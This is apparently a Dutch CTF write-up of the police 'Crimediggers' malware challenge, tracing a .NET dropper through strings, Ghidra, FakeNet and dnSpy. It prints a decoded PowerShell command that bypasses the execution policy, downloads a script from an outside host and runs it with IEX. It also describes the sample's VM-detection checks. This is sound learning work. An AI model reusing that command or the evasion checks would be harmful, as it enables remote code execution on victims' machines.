



# Crimediggers - Politie

File naam: dropper.exe  
SHA256:           28858A7700E27278914D8356CAA0BE33DDD04AD6A4A8153B8E610FB4023FDEDE  
Domein: startup.bedrijfje.local  

Voor ik begon met mijn analyse verplaatste ik de executable naar een veilige sandbox omgeving. 

## Globale analyse

Eerst runde ik strings op dropper.exe om een beeld te krijgen wat de applicatie probeert te doen en welke data wellicht gebruikt kan worden. Mij vielen 2 dingen op: 
1. Console prints die de status van het programma weergeven. `[+] Starting sandboxChecks` bijvoorbeeld.
2. Ik zag een reeks Base64 geencodeerde data `c3RhcnR1cC5iZWRyaWpmamUubG9jYWw=`. Na decoding kwam hier de volgende string uit: `startup.bedrijfje.local`. Dit zal het domein zijn waar de malware zijn payload wellicht vandaan zal halen. 

Mijn eerstvolgende instinct was de executable laden in pestudios om verdachte imports te analyseren. Hier kwam ik helaas weinig tegen. 

Toen ik de executable in Ghidra laadde zie ik de functie "shellcodeRunner". De malware zal waarschijnlijk zijn ware payload (shellcode) downloaden van het eerder gevonden domein wat vervolgens geactiveerd zal worden. 

Ik heb een flinke tijd lopen rondturen in Ghidra op de hoop dat ik iets tegenkom maar de assembly zag er niet normaal uit en de decompiling tool bracht ook geen resultaat.  
Na een tijdje rondkijken kwam ik er achter dat het een .NET applicatie was, iets dat ik nog niet eerder had aangeraakt. Dit legde gelijk uit waarom ik nog vrij weinig had kunnen vinden en is ook zeker een leerpuntje geweest.

## De malware runnen

Ik runde de executable in mijn sandbox en zie in de terminal de al eerder gespotte strings zoals [+] Starting sandboxChecks terugkomen. 

De executable loopt vast op "checking for current domain".  
Ik zette FakeNet3.5 aan en runde de executable weer. 

Dit keer was de uitkomst een request van een domain genaamd startup.bedrijfje.local. Deze exacte string zagen we eerder al in een base64 format.  
Nu geeft de malware aan: [-] Default VM MAC detected. 

De malware checkt of het in een VM zit door de grootte van de C:\ schijf te checken en door te kijken of het MAC adress een standaard VM adress is.   

## De malware analyseren in dnSpy

Ik opende de executable in dnSpy en kreeg gelijk de .NET code te zien. 
Ik ga naar de eerder gevonden shellcodeRunner functie en zie dat er door middel van een vrij simpele decription een array aan bytes wordt omgetoverd tot een aanroepbaar command.  

Door middel van een simpel python script doe ik exact hetzelfde en dump ik de uitkomst naar een bestand.  

Hier valt natuurlijk gelijk het powershell command op.  
Na een snelle raadpleging aan Google wist ik dat de -enc parameter wordt gebruikt om het script te laten runnen terwijl het geencode is in Base64. 

In Cyberchef voeg ik eerst de `from Base64 node` toe en zie dat er een hoop troep tussen staat. Met een simpele `(.). replace node` krijg ik de volledige command te zien:  
`powershell.exe -ep bypass -enc $wc = [System.Net.WebClient]::new(); $targeturl = 'https://heransomware.nl/lsdkafj8fjaf2398fulsd/evil.txt';$publishedHash = 'EF59B9E9E101FED22150D3832A135CF202A4F764B1F5A4CA5CBE667B014B1BE5'; $FileHash = Get-FileHash -InputStream ($wc.OpenRead($targeturl)); If ($FileHash.Hash -eq $publishedHash) {IEX($wc.DownloadString($targeturl))} Else {Write-Host [-] Could not connect with $targeturl}`

Ik zie hier dat er waarschijnlijk payload wordt gedownload van https://heransomware.nl/lsdkafj8fjaf2398fulsd/evil.txt. Deze wordt vervolgens door deze hash gedecrypt: `EF59B9E9E101FED22150D3832A135CF202A4F764B1F5A4CA5CBE667B014B1BE5`. 

Uiteindelijk liep ik hier vast omdat deze webpagina een 404 gaf.

## Andere writeups checken

Omdat ik niet veel verder kwam vanwege de verkeerde link ging ik toch maar eens zoeken naar andere writeups. Ik zag dat iemand er achter was gekomen dat de file verkeerd gespeld was. evil1.txt ipv evil.txt, foutje dus :)  
De flag zat ergens in die payload verstopt. 